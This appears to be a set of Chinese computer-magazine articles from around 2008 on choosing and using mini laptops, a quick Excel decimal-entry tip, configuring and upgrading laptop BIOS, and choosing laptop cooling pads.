最后不要忘记在使用之前检验电压是否符合要求，而且应当进行两次深度充放电，特别是在提高电池容量的情况下。很多时候笔记本电池电路板会在一开始时无法识别内部的电池，造成电量误报，但是只要坚持深度充放电2～3次，这种情况会有很大的改善。

## 越小越精彩 ——低价MINI笔记本选购及应用指南

和台式电脑相比，笔记本电脑最大的优势就是“便携”。世界上第一部笔记本电脑1985年在东芝公司诞生，经过30多年发展，笔记本电脑的性能和功能越来越接近台式机，另一方面，从总体来看笔记本电脑的体积在不断缩小，重量在不断减轻，当小型化发展到极端，就诞生出一个比较另类的门派：“迷你”笔记本电脑。

◆文/龚胜

## 一、笔记本电脑小型化的发展趋势

所谓“迷你”笔记本电脑，业界并没有一个明确的权威定义，这里先对本文主要涉及的“低价MINI本本”作一个大概的界定：即屏幕尺寸介于7英寸到10英寸之间，带有标准物理键盘，价格在五千元人民币以下，可安装使用通用操作系统的笔记本电脑产品。这里我们要注意将低价“迷你”本本与其他三类产品区别，一是现在同样热门的UMPC和口袋PC，UMPC一般没有物理键盘，而且价格通常要高于五千元，而口袋PC的屏幕尺寸要小于7英寸，另外价格也比较高。二是普通的低价笔记本电脑，这类产品低于五千元，但屏幕尺寸一般在14英寸左右，因此没有一点的“迷你”的样子。三是自带键盘的掌上电脑、大屏幕手持电脑以及其他手持智能终端，这类产品体积过分偏小，而且都采用非通用操作系统，不能与主流的Windows系统兼容。

随着Internet时代的全面到来以及移动办公新观念不断深入人心，轻便、适用的“迷你”式笔记本电脑越来越成为“流动白领”的上善之选。因此在保持适当性能和使用舒适的前提下，不断缩减笔记本电脑的重量和体积，是今后笔记本电脑发展的一个重要趋势。技术的进步则为笔记本电脑向“迷你”发展创造了条件，由于集成电路技术和精微制造工艺的飞速进步，使笔记本电脑不断“瘦身”成为了可能。

低价“迷你”笔记本电脑由于其重量轻、体积小、价格相对较低，特别适应外出旅行时随身携带，对特定用户有很大的吸引力。随着电脑和网络应用的日益普及，不少人几乎一刻也不能离开电脑，象经常在外奔波的保险业务员、新闻记者、推销员等就是如此，这类人士大多只需要用笔记本电脑处理简单的OFFICE文件和上网操作，对笔记本电脑性能要求并不高，而对便携性特别关注，因此超便携的“迷你”笔记本电脑就成为深受这类消费者关注的重要产品。“迷你”笔记本电脑的诞生正是源于移动办公的需求和技术上的突破。

## 二、“迷你”笔记本主流平台简介

### 1. Intel凌动平台

大家知道Intel“迅驰”移动平台取得了非常大的成功。最近Intel推出了新的凌动平台Atom处理器。Atom处理器是英特尔历史上体积最小和功耗最小的处理器，基于英特尔最新的微处理架构，专门为小型设备设计，旨在降低产品功耗，同时也保持了同酷睿2双核指令集的兼容，目前Atom处理器一共有五个型号，分别是：Z500（800MHz）、Z510（1.1GHz）、Z520（1.33GHz）、Z530（1.6GHz）、Z540（1.86GHz），其中Z500的功耗仅0.65W。Atom支持SSE3和SSSE3指令集，支持Intel Virtualization Technology（VT虚拟化技术）、Intel Advanced Thermal Manager（高级散热管理技术），此外还具备Execute Disable Bit（EDB防毒）技术。不过Atom尚没有专门配套的芯片组，仍使用过时的945平台，不过Intel将很快推出开发代号Polusbo的芯片组与之搭配使用，其北桥内集成的GMA 500配备了对主流高清视频的硬件解码支持，可以支持MPEG-4 AVC(H.264)，在不给CPU带来额外负载的同时播放高清VC1(WMV9)、MPEG-2、MPEG-4视频。

### 2. 其他平台

在Atom上市前，部分低价MINI本本，如华硕Eee PC 901采用了C+英特尔915平台，很显然这是一个为价格妥协的低端过渡平台，已经逐步被淘汰。

还有部分低价MINI本本采用了VIA C7-M 处理器，象VIA C7-M ULV 770 1GHz超低电压处理器，内建独家Enhanced Power Saver省电技术，满载耗电量仅有5W，同时搭配Windows行动中心可轻松控制设定、音量、无线网络、同步处理状态、电力管理，电池使用时间长达5小时。此外C7-M平台还具备优异的资料安全功能，让电脑使用更安全。VIA C7-M处理器结合硬体资料保全套件及防毒技术，可以配合作业系统避免恶意程式与病毒的攻击，并藉由芯片中内建的硬体加速元件，以数倍于软体模拟的速度执行资料保全与防毒的工作，不影响处理器本身的运算效能。

在Intel推出凌动平台后，VIA也针锋相对推出了“nano”凌珑平台，在C7-M基础上进行了改进，在保持更低耗电的同时，性能大幅提升，据称高出同频率ATOM 20%以上，值得期待。

## 三、其他特性选购及选购要点

“迷你”笔记本适合追求时尚的女性朋友以及对移动性要求很高的特殊商务人士购买，主要用于运行一般的办公软件和上网浏览。若要求较强的多媒体性能，且讲究使用舒适性，则应该购买标准或宽屏笔记本。另外迷你本本也是不少电脑玩家“二奶本”的好选择，在家用大的，外出则用小的。如果你决定购买“迷你”笔记本电脑，那么除了购买IT产品通常应注意的事项外，还应对以下几点多加关注：

### 1. 显示屏幕
现在“迷你”笔记本电脑的显示屏尺寸主要有7.1英寸、8.9英寸、10.2英寸等几种，分辨率在1024x600以上，这种小型化的宽屏显示模式大大提高了“迷你”笔记本电脑观看的舒适度。如果你对便携性要求十分严格可以选择采用7.1或8.9英寸屏幕的产品，而采用10.6英寸屏幕的产品则在性能和使用舒适度上更胜一筹。另外现在有些“迷你”笔记本电脑还采用了手写触摸屏幕，可以直接在屏幕上手写输入，一定程度上减轻键盘输入不便的影响。而新的LED背光技术可让显示屏更薄更省电，非常适合在迷你本本上使用。

### 2. 电池性能
笔记本电脑的电池性能是非常重要的参数。主要区别在电池的质量和容量上。一般来说电池容量越大，其续航时间也越长，但是电池的体积和重量也要增加。另外电池的续航时间还与笔记本电脑整机的设计和制造技术密切相关，也从一个侧面反映了产品质量的好坏。从实用角度考虑，笔记本电脑电池的续航能力在两小时以上是起码的要求，能达到四小时以上则比较理想。由于“迷你”笔记本体积限制，其内置电池容量有限，其续航时间通常不超过三小时，不过现在有些“迷你”笔记本电脑，厂家附送了第二块大容量电池，还有的产品采用了先进的锂聚合物电池，都可大大延长使用时间。

### 3. 存储设备类型
目前迷你本本的内置存储设备有两个选择，一是使用传统硬盘，比如使用2.5英寸的普通产品。还有采用1.8寸超薄低耗电硬盘的产品，其工作电压只有3.3V，能降低耗电有效延长使用时间。二是使用闪存盘，和传统硬盘相比，具有更低的耗电和更高的安全性，不过要注意目前低价迷你本本使用的闪存盘容量偏小，而且大多没有采用正规的SSD硬盘。比如华硕EeePC增强版，是在MINI PCI-E插槽中扩展闪存模组，不仅性能受限，而且占用了扩充空间。另外迷你本本也可以使用混合型硬盘，将使启动时漫长的开机等待成为历史。

### 4. 连接及扩充能力
迷你本本最主要的用途之一就是能随时随地上网，因此内建IEEE 802.11 b/g无线网络是起码的要求，另外最好内置蓝牙2.0+EDR，这样能方便地与手机建立连接。限于体积，迷你本本的扩充能力通常有限，因此有些产品有配套扩展底座可以选择，这样就大大提高了扩充能力。在连接能力上，最好具备三个以上的USB接口、外接VGA接口、存储卡接口等基本接口。同时内置摄像头，可以更加方便地体验网络新生活，让沟通更加有乐趣。另外最好具备一定的内存扩充能力和使用MINI-PCIE设备的能力。

### 5. 低价迷你本本代表产品
这里我们来看看目前市场主流的低价迷你本本代表产品都有哪些。华硕Eee PC无疑是最热门的产品，第一代华硕Eee PC屏幕部分仅为7英寸，内置闪存容量也只有4GB，第二代华硕Eee PC采用8.9英寸宽屏幕液晶显示器，内置闪存容量也提高到12GB以上。新的Eee PC S101采用10.2英寸LCD屏幕，处理器采用Intel Atom N270，将采用32GB及64GB SSD硬盘。来自日本的工人舍（KOHJINSHA）也是现在市场上产品线比较齐全的低价迷你本本品牌，使用了可旋转宽屏液晶显示器，机身非常小巧精致。清华同方imini S1是一款很有特色的低价迷你本本，采用威盛C7-M处理器，具备关机供电，微距摄像、智能滚轮键等实用功能，使用户操作更方便快捷。其他低价mini本本还有联想的超便携笔记本IdeaPad S10/S9、长城新款睿PC/长城A81、宏碁Aspire One、微星U100、技嘉M902、惠普2133等，这些产品的功能和性能都比较接近。另外怀旧的朋友还可以选择二手的经典迷你本本，如SONY VAIO C1/U3/PCG-TR2、华硕S200N、松下CF-R3等。

华硕低价迷你本本EeePC可以用卖疯了形容。

移动办公是“迷你”笔记本电脑最主要的应用。我们首先应根据电脑不同的配置水平，安装合适的OFFICE版本，对于主流配置的产品，可以安装高版本的OFFICE 2003/2007，对于配置较低的“迷你”本本，一般安装OFFICE 2000或绿色简化版即可。另外要根据自己的习惯安装合适的中文输入法，对于普通用户推荐大家使用“QQ拼音”或“搜狗拼音”。

移动办公中的一项重要内容就是无线上网，“迷你”笔记本电脑实现无线上网有两种方式，一是无线局域网（WLAN），现在多采用IEEE802.11g协议，理论带宽为54Mbps，工作频率为2.4GHz，现在大多数MINI本本都内置了无线网卡，可以在“热点区域”或通过无线AP/路由器上网。另一种是基于手机网络的广域无线上网。从理论上说只要有手机信号的地方就可以实现上网的愿望，尽管连接速率较慢（一般在50Kbs以下），但由于覆盖面广，这种方式更适合与“迷你”本本配合实现移动办公。具体可以通过“迷你”本本的USB接口或蓝牙等与具备相关功能的手机配合，也可以直接使用GPRS/EDGE/CDMA 1X PC卡上网。此外我们还可以使用迷你笔记本电脑收发传真，只需把要发的内容用传真软件模拟的打印机打印即可，如果你的手机开通了传真功能，甚至可以通过与手机配合无线收发传真。

### 6. 全球定位 移动娱乐
GPS是英文Global Positioning System的缩写，意即全球定位系统。全球定位系统是利用导航卫星进行测时和测距，使在地球上任何地方的用户，都能计算出他们所处的方位，GPS无疑是现在人们应用的热点。“迷你”笔记本电脑由于携带方便，十分适合用于全球定位，我们只需要购买一个合适的GPS模块（蓝牙或USB GPS），再配合适当的软件及地图，就可以实现移动定位、路径选择、物体追踪等很多功能。具体大家可以参看以前合订本的相关内容，这里不再赘述。

随着人们对数字娱乐需求的增加，近年来笔记本电脑在娱乐方面的功能设计不断得到强化，电视接收功能也开始走进笔记本电脑了。对于一般“迷你”笔记本电脑来说，要收看电视的话，可以选用USB接口的外置电视盒，建议大家选择可以接收数字电视的产品，这样你就能方便地使用迷你本本随时随地观看清晰的电视节目了。

### 7. “迷你”本本使用维护
由于迷你本本的硬件配置要低于主流电脑产品，因此在使用维护上有一些需要注意的地方。比如操作系统要精心选择，最好使用“深度xp”等精简系统。并对系统性能进行优化设置。只安装必要的软件，最好都选择免安装的“绿色版”，安全防范方面，不建议安装瑞星等防病毒软件，太占用资源。装一个“奇虎360安全卫士”之类的小安全软件就可以了。平时携带使用要注意防摔防盗，并经常保持机身清洁。

迷你本本都没有内置光驱，不过大多支持从USB存储设备启动系统。因此我们最好准备一个U盘启动工具盘。可以自制一个优盘启动恢复工具盘，具有U盘引导、恢复系统、驱动安装、备份资料等功能，这样就不会为迷你本本重装系统而发愁了。一旦系统出现问题，只需要仅仅几分钟，一个全新的系统就能恢复成功。另外有些迷你本本支持网络启动，使用Ghost企业版进行“网刻”也是很好的系统维护选择。

***

## 小数输入更快捷
文/啄木鸟

最近由于工作的需要，笔者要经常输入大量的小数，并且小数点后都是有3位数字，在输入小数的过程中，由于键盘上小数点和数字之间距离比较远，因此输入大量的小数就显得很不方便了。怎样才能够实现小数的快速输入呢？笔者经过一番研究，终于找到了一个比较好的办法，圆满地解决了这个问题。好的经验当然不能藏着，下面就来和大家共同分享。

先启动Excel 2003（其他版本操作类似），再单击菜单“工具”→“选项”命令，这时就会弹出一个“选项”对话框，接着切换到“编辑”标签下，勾选“自动设置小数点”复选框，然后在下面“位数”右侧的方框中输入数字3（如图），最后单击“确定”按钮。好了，这样我们在输入数字时，系统就会自动设置好3位小数。

1.  当我们输入的数没有小数或者小数位数不足3位时，需要用0补齐。例如，要输入“8”、“15.46”时，请输入“8000”、“15460”。
2.  如果在图所示的对话框中，将“位数”设置为负数（如“-2”），则输入没有小数点的数就会扩大“100倍”，例如，输入“111”、“50”，确认后就会显示为“11100”、“5000”。

怎么样？通过以上这一个小技巧，我们就可以非常轻松地来输入小数了，有此需求的朋友可以来试一试。

***

## 跟我玩转笔记本电脑BIOS

BIOS是基本输入输出系统（Basic Input-Output System）的缩写，为计算机提供最低级、直接的硬件控制，也是计算机硬件与软件间的“转换器”。目前大多数计算机都采用Award BIOS或Phoenix BIOS，对台式机而言BIOS设置界面和功能都差不多，而笔记本BIOS则是厂家在通用BIOS的基础上进行了一些修改，具备个性化的设置界面及一些特殊功能。

## 一、笔记本电脑BIOS设置应用实例

随着个人电脑硬件种类日益增多，现在BIOS设置也变得越来越复杂，由于它对系统的启动和运行过程有着重大影响，因此掌握一些如何优化BIOS设置的知识对我们用好电脑有很大的好处。相比台式机BIOS，笔记本电脑BIOS可以自行调节的参数比较少，比如通常不能调节内存CL值、CPU外频等参数，但是在电源管理、安全管理等方面则比台式机更丰富。下面我们以ThinkPAD和东芝部分机型为代表，从应用的角度来看看笔记本电脑BIOS设置对性能、安全性等方面的影响。

### 1. 进入笔记本BIOS设置菜单
BIOS本身存放在EPROM中，其内容是不可随意更改的，而计算机系统的配置又需要灵活变动与设置，这样我们就用一个功耗极小的可读写存贮器（CMOS）来记录这些参数，由电池供电，关机之后也不会丢失。我们知道大多数台式机都是在开机后按Del键进入BIOS界面，那么如何进入笔记本电脑的BIOS设置程序呢？一般是在开机或重新启动时按“F2”键，这是Phoniex BIOS默认进入BIOS设置程序的方式，但不同品牌的笔记本电脑进入CMOS设置程序的方法可能有所不同，下面列出部分笔记本电脑进入BIOS设置程序的方法：

- IBM（联想）ThinkPAD：是开机后按“F1”键，部分型号可以在重新启动时按“F1”键，还有些早期的机型进入CMOS设置程序更为特殊。
- Toshiba（东芝）：早期的机型是开机时按“ESC”键，然后在出现提示后再按“F1”键，现在很多机型是开机或重启时按“F2”键。
- Compaq（康柏）：被惠普收购前的早期机型是开机时按“F10”键，而新康柏和HP（惠普）是在开机后按F2。
- SONY（索尼）、Dell（戴尔）、Fujitsu（富士通）、NEC、三星等国际品牌的笔记本都是在开机或重启时按“F2”键，绝大多数国产品牌也是在开机或重启时按“F2”键进入BIOS设置界面。

使用某些专门的软件也可以进入BIOS设置，比如东芝笔记本电脑就可以在Windows环境下运行特定程序对BIOS部分参数进行修改和设置。有少数笔记本甚至根本没有传统的BIOS设置界面，而必须使用专门的设置程序进行设置。

### 2. 笔记本BIOS设置的基本界面
这里我们介绍一下ThinkPAD系列笔记本的Bios设置界面。可以分为Config、Date/time、Password、Startup、Restart五个设置大项，其中重点设置项目在Config项目下。在BIOS设置首页，显示了本机的系统及硬件信息，这里显示的信息对于购买笔记本电脑是很有参考价值的。下面我们来看看具体的实例：

- Bios Version 1.04c(1AET47WW)：这个是机身BIOS版本，最好能升级到官方最新版本
- Bios Date (Year-Month-Day)：2006-11-16 BIOS版本发布日期
- Embedded Controller Version 1.0c：内嵌控制器的版本
- System-unit serial number 2647I541234567：机型、Model及机身序列号，可以用来确定本本的准确型号，以及是否是水货等。
- Cpu Type：Mobile Intel Pentium III Processor-M 移动型奔腾3处理器，CPU型号
- Cpu Speed：866MHz CPU最高时钟频率866MHz
- Installed memory: 256MB 已装载，并被正确识别的内存为256兆
- Mac Address(Internal Lan): 00 00 00 00 00 00 内置网卡的Mac地址（网卡的物理地址）

Toshiba(东芝)笔记本电脑有很多是使用Toshiba专用的BIOS，Toshiba 称之为System Setup；System Setup BIOS只有两个分页，看起来非常简单，但其中提供了一些其他品牌笔记本电脑没有的设置选项，并且许多选项对系统性能有很大影响，而其默认设置通常是非优化的。System Setup设置界面将不同的设置用不同的方框区分开来，用户可使用空格键和Backspace键来改变设置，End键来保存设置并退出，方向键来切换设置项目。

### 3. 电源管理设置：在省电和性能间获得平衡
有些朋友在笔记本使用过程中会遇到一些问题。比如明明是比较高的配置，但在播放视频或玩游戏时却很卡，还有一种情况就是电池的使用时间大大低于标称时间，这些问题很可能都与本本BIOS的相关设置不当有关。

比如对东芝笔记本而言，首先请检查“Battery(电池节能)选项”，在将电池节能模式设置为User Setting时，会出现一些隐藏的选项。用户可根据具体需要设置这些选项。建议将Processor Speed设为High，以保持CPU速度为最高。将CPU Sleep Mode(CPU睡眠模式)设为Disable，可以避免CPU进入睡眠模式而拖慢系统速度。其次在“Others(其他设置)选项”下有一个非常重要的设置，对系统性能有着很大的影响，就是Level2 Cache(二级缓存)的Write Policy(写入方法)，一定要将WritePolicy设置为Write-Back，否则系统性能将严重下降。

在某些笔记本电脑上，我们可以看到Dynamic CPU Frequency Mode(动态CPU频率模式)选项。该选项有三个设置，分别是 Always High(总是最高)、Dynamically Switchable(动态切换)和Always Low(总是最低)。这些选项的作用就是让CPU节约电能，默认设置是Dynamically Switchable，这时CPU会根据系统负荷动态地切换主频，但是系统的速度会有一定的降低，而且一般的CPU测速软件无法得出正确的CPU主频；若设置为Always High则CPU在任何时候都保持最高性能运行。

### 4. 安全设置：让本本不再洞开“艳照门”
今年年初闹得沸沸扬扬的陈冠希“艳照门”事件相信朋友们还记忆犹新。由于笔记本电脑的可移动性，对保存在其中的私密文件的保护就显得尤为重要了。要避免出现陈冠希式的悲剧，我们应该对笔记本电脑进行适当的安全设置，这首先反映在本本密码选项的正确设置上。下面以ThinkPAD系列机型为例具体说明，进入到BIOS设置项目的Password界面后，我们可以看到以下设置项目：
- Power-On Password：启动该项后，每次开机时候，需要你要键入正确密码才能引导系统，为系统安全提供基本保障。
- Supervisor Password：启动该项后，可阻止未授权用户访问BIOS 设置。
- Lock Bios setting：启动该项后，可以阻止其它用户更改BIOS设置，除了supervisor用户才可更改。
- Hard Disk1 Password：这个设置可以阻止未授权的用户访问硬盘上的所有数据，只有输入正确的密码才能访问。通常是在开机时要求输入。这种方法对硬盘数据的加密强度是非常强的，即使取下硬盘将其换到另一台本本上也无法识别该硬盘。因此这一设置对于保证硬盘数据有非常重要的意义。

笔记本电脑BIOS中，与安全有关的功能要比台式机更丰富，现在新款机型还加入了指纹加密等技术。不过特别提醒大家注意，在设置笔记本密码时一定要牢记，否则一旦遗忘密码将无法象台式机那样，通过对CMOS放电等简单方法加以清除。而必须送到专业维修点通过更换芯片等方式才能让本本正常使用，相当麻烦。

## 5.启动及设备管理设置：系统维护帮手

笔记本电脑如果出现系统问题，或者需要重新安装系统，通常我们需要设置正确的启动顺序，以便使用硬盘以外的设备来启动电脑。比如大多数笔记本启动设备可以选择：Hard Drive、DVD-ROM Driver、Removable Devices（软盘或U盘）等，有些本本还有Network启动顺序选项，支持通过网卡启动，大家可以根据需要选择。另外我们也可以设置在开机时按下F12临时更改硬盘/光驱/软驱这些设备的启动顺序。对于ThinkPAD本本而言，以上相关设置在Startup设置界面下，大家按提示操作即可。

笔记本电脑在使用过程中，如果出现某些端口或外设无法正常使用的情况，我们首先要检查一下BIOS中的相关设置。比如在ThinkPAD本本上，我们可以进入到Config设置界面，参看或更改下列项目：Infrared：启动红外接口，选择Enabled。Base I/O address和Interrupt、DMA使用默认设置就可以使用。如果与其它硬件有冲突，可以自行更改。Disabled则禁止这项功能。Parallel port：启动并口（打印口），选择Enabled。Base I/O address和Interrupt使用默认设置就可以使用。Mode分别有4种可选模式，Bi-directional、Output only、EPP、ECP Keyboard/Mouse：TrackPoint一直使用IBM TrackPoint鼠标，请选择Enabled。不使用，请选择Disabled，如果选择了AutoDisable的话，当介入PS/2界面或USB界面之鼠标时，TrackPoint鼠标将会自动停用。

## 二、笔记本电脑BIOS升级实例

### 1.什么时候需要升级BIOS

和台式机一样，笔记本电脑的BIOS也是可以自行升级的。我们首先谈谈笔记本电脑通常在什么时候需要升级BIOS。比如最典型的一个例子就是为支持超过137GB以上的大容量硬盘正常使用，另外升级BIOS还可以解决其他配件的兼容性问题，比如IBM ThinkPAD x22，如果不将BIOS版本升级到最高，在用USB 2.0卡时就会频繁死机。而集成显卡的本本通常显卡与主板BIOS公用，所以升级本本的BIOS有时还可以提高显卡性能，下面介绍具体如何升级本本的BIOS。

### 2.用软盘升级BIOS

早期的笔记本电脑内置有软驱或能连接外置软驱，因此可以通过软盘进行升级，基本步骤很简单：首先确认笔记本电脑的BIOS版本，再从官方网站下载对应型号的最新版BIOS文件，将下载回来的BIOS升级文件的压缩包解压缩到软盘。这时不要取出软盘，因为此软盘支持启动并能自动刷新BIOS。进入BIOS设置将启动顺序设定为软驱优先，系统将运行PhoniexPhlash Utility程序，并自动进行升级BIOS操作。对于没有软驱的朋友也可以通过虚拟软驱等方法来升级我们的BIOS程序。

### 3.用U盘及硬盘升级

新款笔记本电脑基本上支持通过U盘启动系统，因此我们可以利用U盘来升级BIOS。具体方法与前面的“软盘升级”法类似。把升级文件放到U盘根目录下，再用U盘启动系统就可以自动升级BIOS了。这里大家要注意的是，部分笔记本在使用U盘方式启动时，对使用的U盘有一定要求，早期产品通常需要带“双启动”功能的U盘，以便模拟软驱启动。另外现在厂家还会提供硬盘版本的BIOS升级程序，以方便没有其他启动措施的朋友升级BIOS所用。我们只需将升级程序解压到硬盘上，并设法通过硬盘启动到DOS环境，也能执行BIOS升级程序，顺利升级BIOS。

### 4.Windows环境下升级

从易用角度考虑，现在越来越多的本本支持通过Windows环境下的相关程序，完成BIOS升级。下载升级程序后，安装时只要按照要求一路Next就可以搞定，整个过程不超过1分钟。安装完毕后，启动程序，程序会对是否连接有底座、电池电量以及BIOS选项设置是否正确等进行检查，如果一切无误，则将进入BIOS升级步骤。在Windows环境下升级BIOS，时间大大缩短，而且安全系数也提高了不少。在进行升级操作前，请先确认电脑正在使用电源适配器供电，千万不可以在电池供电方式下升级BIOS。另外，电池必须充满电，如果电池电力不足，即使用电源适配器供电系统也会拒绝升级请求。同时还须确认没有正在运行其他应用程序，如有请将它们全部关闭。

### 5.升级BIOS注意事项

笔记本电脑BIOS尽管并不是很复杂，但仍然具有一定的风险性，因此在升级BIOS时还是有一些需要注意的地方。比如一定要选择与本本完全匹配的BIOS数据文件，因此BIOS升级文件最好从笔记本电脑生产厂家的官方网站上下载，确保BIOS升级文件的安全性和正确性。和台式机一样，升级BIOS时要注意供电的安全可靠，一定要装上充满电的电池再进行操作。另外要先将BIOS中“Flash BIOS Updating By End-users ”之类的设置设为“允许”，这样才可以写入新版本BIOS。一旦BIOS升级失败，也不用太过着急，可以通过重新“盲升”或者更换BIOS芯片等方法加以弥补。

## 让本本不再“上火”——笔记本电脑散热器选购及散热技巧

随着性能提升，笔记本电脑发热问题也日益严重，但由于体积限制，笔记本不可能像台式机一样使用巨大的散热器和散热风扇，这就导致热量大量聚集在笔记本底部，降低了使用舒适度和运行稳定性。更为严重的是，很多白领GG喜欢将本本放在腿上或躺在床上使用，发热大的本本甚至还会影响到X能力。要解决这一问题，最有效的方法就是使用笔记本散热器，另外还可以通过其他一些软硬件手段综合解决。

- ◆文/龚胜

## 一、笔记本散热设计概述

在介绍笔记本散热器之前，让我们先分析一下笔记本电脑在散热设计方面都有哪些特点。散热问题，一直是笔记本电脑最大的技术瓶颈之一，散热好坏关系到产品运行的稳定程度和整机使用寿命，笔记本电脑由于体积比较小，发热元件集中，散热设计有相当大的难度，其中重点又在CPU的散热上，最常见的方法有采用温控风扇散热，当CPU温度比较高的时候，风扇就开始工作，从而迅速降温。复杂一些的多采用热导管+散热片+风扇的综合方式来给CPU散热。一般来说，本本的发热情况和产品体积及CPU类型（工艺、频率和工作电压）密切相关，通常轻薄本本和使用高频率、高电压CPU的本本发热情况较为严重。另外还与笔记本品牌有关，目前市场上大多数名牌本本的散热设计都不错，发热控制较好，而一些低价的小厂产品散热就做得不尽如人意了。

### 1.ThinkPad本本的散热设计

著名的ThinkPad系列笔记本就采用了双散热管系统散热方式，它由三部分组成：双散热管、双散热板以及金属支架。散热管是其中的核心，它可以有效地将热从一端传导到另一端。管内抽成真空，有纤维和水，一端贴近CPU，另一端则远离CPU。它的工作原理是：真空状态下，水的沸点很低，如果在管子的一端加热，水就会蒸发，把热带到另一端，到另一端后，水会冷却，再流回去，如此反复，CPU发热就很快散发了，其优点是没有活动零件，全部零件都密封在内，不消耗电能，使用可靠，寿命长。除了散热管外，在主板底部和上部，各有一块金属散热板，CPU等配件产生的高热经由散热管，沿着金属散热板加以传导，再通过机身和键盘，将热排出。由于采用了这种高科技散热技术，使IBM ThinkPad系列笔记本电脑即使长时间使用也不会使机身温度变得很高，提高了使用时的舒适性，而且系统也能够保持稳定，但这种散热设计造价较高，也因此增加了整机成本。

### 2.华硕智能散热技术

现代笔记本电脑的散热设计越来越趋向智能化和综合化。像智能型动态散热技术（ADTD II），是华硕独创的低噪音、低震动、低耗能环保设计之动态散热技术，包括了下面的特性：利用中空铜质散热导管的超强导热性，可在最短时间内将CPU产生的热量透过此导管传至散热片上，并将热散去。超大尺寸铝质散热片附于整个键盘下方，突破空间限制，完全覆盖主板热源，彻底吸收机器内部热力。第二代智能型风扇转速控制技术可以平顺控制风扇转速，有效降低风扇噪音，增加电源使用时间，延长风扇寿命。ASUS PC Probe华硕系统诊断家，配合硬件芯片内建的监控功能，在线监控处理器工作温度，更可提供CPU温度历史记录，最大程度避免了因处理器温度过高导致的死机问题。

## 二、笔记本散热器特点及选购

### 1.是否需要笔记本散热器

尽管采用了种种高科技的散热技术，但由于CPU、硬盘等配件的性能提升迅速，现在笔记本电脑发热依然较大，市面上出现了不少专门为笔记本电脑设计的散热器。那么对于笔记本来说是不是真的需要这样的散热器呢？这要从本本自身的实际情况来看，比如某些品牌的本本把散热孔设计在底部，那么通过外置散热器散热效果就非常明显。同时多数本本的硬盘和内存离底座非常近，笔记本底部发热较大，使用外置散热器有利于笔记本散热。另外轻薄型笔记本电脑有大量热量会通过散热片传到机身，导致机身温度升高，这样采用外置散热器对本本散热还是非常有帮助的。若本本散热设计完善，长时间高负荷使用后，机身底部温升不大，就没有太大必要使用散热器了。简单说，我们可以由正常工作时本本机身（尤其底部）发热是否厉害、日常工作时本本散热条件是否良好，比如是否经常躺在床上使用本本、是否喜欢用本本玩游戏等具体情况来确定是否有必要购买使用笔记本散热器。毕竟笔记本电脑散热器的价格并不算便宜。

### 2.笔记本散热器选购要点

如果确定需要购买笔记本散热器，则需要在以下几方面加以注意：
首先要注意与笔记本的配合问题，尽管大多数散热器都声称能匹配10英寸至15英寸的机型，但在选购时最好带上自己的本本去挑选，注意笔记本是否和散热器紧密贴合，严丝合缝，散热器能不能紧紧固定在笔记本下部，一款做工精细的笔记本散热器在安装使用时要方便，卡扣的设计要能让使用者轻松安装及卸装。目前市场上大多产品适用于13-15寸以内笔记本，而适用于15寸以上笔记本使用的散热底座寥寥无几。

其次是选择主动型还是被动型，目前市场上笔记本散热器有很多，主要分为被动散热型和主动散热型，被动型的散热器是由一整块导热率较高的金属作为笔记本底座紧贴着笔记本从而加快热量的散发，散热效果并不能得到保证，而且重量也比较重，但价格相对便宜，使用简单，不消耗电能。现在大多数是主动型散热器，也就是说带有主动散热风扇，将冷风吹向温度较高的位置，在散热器和笔记本之间形成一个热循环从而降低笔记本的温度。目前还有一种新型产品采用了热转移技术，产品内置的新型材料可以根据小范围的温度差异，在液态和固态两种状态下切换。局部受热后，内部材料由固态转换为液态，流向其他位置。散热后，半凝固的材料又被填充回来，如此循环，达到散热效果。

最后散热器散热效果是其最重要的指标，最好能在装上散热器后运行大型游戏等软件试用一下，亲自体验散热效果是否良好。散热效果通常取决于材质及整体设计，比如采用导热系数比较高的铝合金材质就要比采用塑料材质的散热器在散热效果上好一些。散热器风扇的质量也十分关键，其好坏直接关系到散热效果以及散热器噪声的大小，如果在试用时发现风扇声音过大或者风扇有杂音，就要考虑其质量是否可靠。

再次采用什么供电方式也值得注意，现在大多数主动型产品都采用了USB口供电，免去了单接电源线的麻烦，但同时也会消耗笔记本电脑宝贵的电量，由于考虑到占用了USB接口，好的产品通常还会设计一个USB集线器，显得相当人性化。其他还有一些细节问题也应注意，比如底部风扇口与桌面距离是否过近、散热风扇是否可关掉或者调速等。另外现在还有一种主动式抽风设计的散热器，散热环节由风扇占据主体，通过风扇向外抽风而使笔记本电脑内的热循环加速，从而使热量能更快地释放出来。在二手市场上还能见到一种特殊的PC卡散热风扇，可以插在笔记本PC卡插槽中加强散热，通常用在一些超薄型笔记本中。

## 三、常见笔记本电脑散热器介绍

目前市场上笔记本电脑的散热器有很多品牌，价格也数百元不等，其形状、散热性能等也不尽相同。下面给大家简单介绍一些有代表性的产品。其中价格部分仅供参考。

- NoteBook Cooler Pearl：来自美国著名厂商Anetc。产品包装以白色调为主，在外观上颇具特色。这款产品采用全铝设计，内含两个双滚珠轴承低功耗散热风扇，噪音值最大不过25dB；从USB口取电，同时还提供了一个USB口。这款散热器看上去像一个巨大弯曲的“X”，它的表面是铝化合物拉丝而成的，上面遍布着散热孔。这款产品无论从外观还是颜色上，都更适合使用苹果本本的用户使用，售价为300元左右。

- Cooler Master的“轻骑兵”：这款产品同样采用了主动散热方式，采用了全铝材质，具有两个靠USB供电的低转速风扇，标称噪音仅为18dB，且风扇位置经过精心设计，正好在大多数笔记本硬盘等“发热大户”的位置。这款产品不但外观不错，而且该款产品的做工方面也非常不错，边角处都经过了磨圆加工。底部结构简单化，空气流通更加迅速，大大加强了散热功能。不过，该款产品的价位并不低，目前售价为400元左右。

- Abee AS Station LT-1：这款产品非常新颖，不但外观不错，而且散热效能也比起传统的笔记本散热器要好了许多。因为它的通风效能和其他设计上都比较合理，并且在平台随意上的设计也是与众不同的。散热器采用了全气孔的散热设计，可有效增加散热效能，并且还在中间增加了一个8厘米的散热风扇，使之散热更加集中。这款产品的重量达到了1100克，基本上只适合固定场所使用，而且价格也高达400元以上。

- 劲冷酷精灵：劲冷酷精灵是一款便携式笔记本散热器，外形小巧，尺寸为51.6mm×23.4mm×13mm，仅有鼠标般大小，由于采用了工程塑料，其重量只有60g，非常适合经常携带笔记本外出的用户使用。这款散热器的架构设计十分简单，采用了主动式抽风设计，散热环节由风扇占据主体，通过风扇向外抽风而使笔记本电脑内的热循环加速，从而使热量能更快地释放出来。价格在100元左右。

